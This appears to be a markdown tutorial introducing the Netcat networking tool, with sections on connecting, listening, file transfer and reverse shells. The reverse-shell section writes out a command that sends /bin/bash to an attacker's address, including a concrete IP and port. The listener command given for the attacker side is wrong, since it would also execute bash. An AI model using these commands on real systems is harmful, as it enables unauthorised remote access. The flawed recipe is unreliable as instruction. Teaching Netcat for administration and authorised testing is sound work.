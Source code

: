 ## Overview of Netcat

**Netcat**, often referred to as the "Swiss Army knife" of networking, is a versatile networking utility that can read and write data across network connections using TCP or UDP protocols. It is widely used by network administrators, security professionals, and penetration testers for various tasks, including network diagnostics, data transfer, and creating backdoors.

### Key Features

- **Port Scanning**: Netcat can be used to scan for open ports on a target machine, helping to identify services running on those ports.
- **Data Transfer**: It allows for easy transfer of files between machines over the network.
- **Reverse Shells**: Netcat can create reverse shells, enabling remote access to a target system.
- **Listening Mode**: It can operate in listening mode, waiting for incoming connections, which is useful for setting up servers or backdoors.
- **Protocol Support**: Supports both TCP and UDP protocols, making it flexible for various networking tasks.

### Common Commands

#### 1. Basic Connection

To connect to a remote server on a specific port, use:

```
nc <target_ip> <port>
```

- **Example**:
  ```
  nc 192.168.1.10 80
  ```

#### 2. Listening for Incoming Connections

To set up Netcat to listen for incoming connections on a specific port, use the `-l` option:

```
nc -l -p <port>
```

- **Example**:
  ```
  nc -l -p 1234
  ```

#### 3. File Transfer

To transfer a file from one machine to another, you can use the following commands:

- **Sender**: On the sending machine, use:
  ```
  nc -l -p <port> < <file>
  ```

- **Receiver**: On the receiving machine, use:
  ```
  nc <target_ip> <port> > <file>
  ```

- **Example**:
  - Sender:
    ```
    nc -l -p 1234 < myfile.txt
    ```
  - Receiver:
    ```
    nc 192.168.1.10 1234 > receivedfile.txt
    ```

#### 4. Reverse Shell

To create a reverse shell, you can set up a listener on your attacking machine and then execute the following command on the target machine:

- **Listener** (Attacker):
  ```
  nc -l -p <port> -e /bin/bash
  ```

- **Reverse Shell** (Target):
  ```
  nc <attacker_ip> <port> -e /bin/bash
  ```

### Example Command for Reverse Shell

- **Listener**:
  ```
  nc -l -p 4444 -e /bin/bash
  ```

- **Reverse Shell**:
  ```
  nc 192.168.1.20 4444 -e /bin/bash
  ```

### Benefits

- **Versatility**: Netcat can be used for a wide range of networking tasks, making it a valuable tool for both administrators and security professionals.
- **Simplicity**: The command-line interface is straightforward, allowing users to quickly execute commands without complex configurations.
- **Open Source**: Being an open-source tool, it is freely available and can be modified or extended by users.

### Considerations

- **Ethical Use**: It is crucial to use Netcat responsibly and only on systems for which you have explicit permission to test.
- **Detection**: Many security systems may flag the use of Netcat as suspicious, especially when used for reverse shells or unauthorized access.

Netcat is an essential tool for cybersecurity professionals, offering robust capabilities for network diagnostics, data transfer, and penetration testing. Its flexibility and ease of use make it a go-to choice for many networking tasks.